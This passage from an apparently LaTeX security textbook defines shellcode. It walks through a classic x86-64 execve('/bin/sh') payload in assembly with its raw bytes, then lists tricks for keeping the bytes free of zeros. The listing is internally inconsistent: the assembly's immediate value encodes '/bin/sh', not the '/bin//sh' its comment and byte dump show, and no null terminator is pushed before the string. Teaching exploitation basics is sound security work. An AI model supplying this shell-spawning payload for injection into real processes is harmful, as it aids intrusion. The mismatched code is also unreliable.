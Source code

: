 \begin{definition}[Shellcode]
	\textbf{Shellcode} is a sequence of machine-code bytes designed to be injected into a process and executed. It must be \emph{position-independent} (no absolute addresses) and typically avoids null bytes (which would terminate string-based injection vectors).
\end{definition}

\subsection{A Minimal Shellcode: execve("/bin/sh")}

The classic shellcode executes \texttt{execve("/bin/sh", NULL, NULL)}:

\begin{lstlisting}[language=ASM, caption=x86-64 execve shellcode]
  ; execve("/bin/sh", NULL, NULL)
  xor  %rdx, %rdx      # rdx = 0 (envp = NULL)
  xor  %rsi, %rsi      # rsi = 0 (argv = NULL)
  mov  $0x68732f6e69622f, %rax   # rax = "/bin//sh" (little-endian)
  push %rax
  mov  %rsp, %rdi      # rdi = pointer to "/bin//sh"
  xor  %rax, %rax
  mov  $59, %al        # rax = 59 (execve syscall number)
  syscall
\end{lstlisting}

The bytes (27 bytes, null-free):

\begin{lstlisting}[language=ASM]
  48 31 d2    48 31 f6    48 b8 2f 62 69 6e 2f 2f 73 68
  50          48 89 e7    48 31 c0    b0 3b    0f 05
\end{lstlisting}

Note the use of \texttt{/bin//sh} (with double slash) to produce an 8-byte value that fits in a register. The double slash is harmless: the kernel normalises it to \texttt{/bin/sh}.

\subsection{Null-Free Constraint}

Many injection vectors (e.g., \texttt{strcpy}, \texttt{sprintf}) stop copying at the first null byte. Shellcode must not contain \texttt{0x00}. Common techniques:

\begin{itemize}
	\item Use \texttt{xor reg, reg} instead of \texttt{mov reg, 0}.
	\item Use \texttt{mov \$0xFF, \%al; inc \%al} instead of \texttt{mov \$0, \%al}.
	\item Use \texttt{shl} to construct constants without null bytes.
\end{itemize}

